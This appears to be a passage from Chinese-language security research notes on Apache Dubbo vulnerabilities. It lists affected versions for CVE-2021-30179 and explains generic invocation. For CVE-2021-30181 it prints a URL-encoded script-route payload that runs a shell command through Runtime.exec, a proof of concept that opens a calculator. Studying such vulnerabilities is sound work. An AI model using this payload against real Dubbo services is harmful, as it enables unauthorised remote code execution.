 ![img](img/12.png)

而且，自带的Fastjson版本为1.2.70，AutoType会自动拦截掉TemplatesImpl类。

## CVE-2021-30179

###  影响版本

```
Apache Dubbo 2.7.0 to 2.7.9
Apache Dubbo 2.6.0 to 2.6.9
Apache Dubbo all 2.5.x versions (官方已不再提供支持)
```

泛化引用:https://xie.infoq.cn/article/bf3a4a66a770a95382722013d

https://developer.aliyun.com/article/724533#slide-0

```
Apache Dubbo默认支持泛化引用由服务端API接口暴露的所有方法，这些调用由GenericFilter处理。GenericFilter将根据客户端提供的接口名、方法名、方法参数类型列表，根据反射机制获取对应的方法，再根据客户端提供的反序列化方式将参数进行反序列化成pojo对象。

也就是说需要知道注册中心注册的接口名，方法名，才可以配合攻击。
```



## CVE-2021-30181

https://articles.zsxq.com/id_28iczv3uhbtk.html

没怎么看懂。。。

```
script%3A%2F%2F127.0.0.1%2Fcom.threedr3am.learn.server.boot.DemoService%3Fapplication%3Ddubbo-consumer%26category%3Drouters%26check%3Dfalse%26dubbo%3D2.0.2%26init%3Dfalse%26interface%3Dcom.threedr3am.learn.server.boot.DemoService%26metadata-type%3Dremote%26methods%3Dhello%26pid%3D53953%26qos.enable%3Dfalse%26release%3D2.7.7%26revision%3D1.0%26side%3Dconsumer%26sticky%3Dfalse%26timestamp%3D1622381389749%26version%3D1.0%26route%3Dscript%26type%3Djavascript%26rule%3Ds%253D%255B3%255D%253Bs%255B0%255D%253D'%252Fbin%252Fbash'%253Bs%255B1%255D%253D'-c'%253Bs%255B2%255D%253D'open%2520-a%2520calculator'%253Bjava.lang.Runtime.getRuntime().exec(s)%253B
```
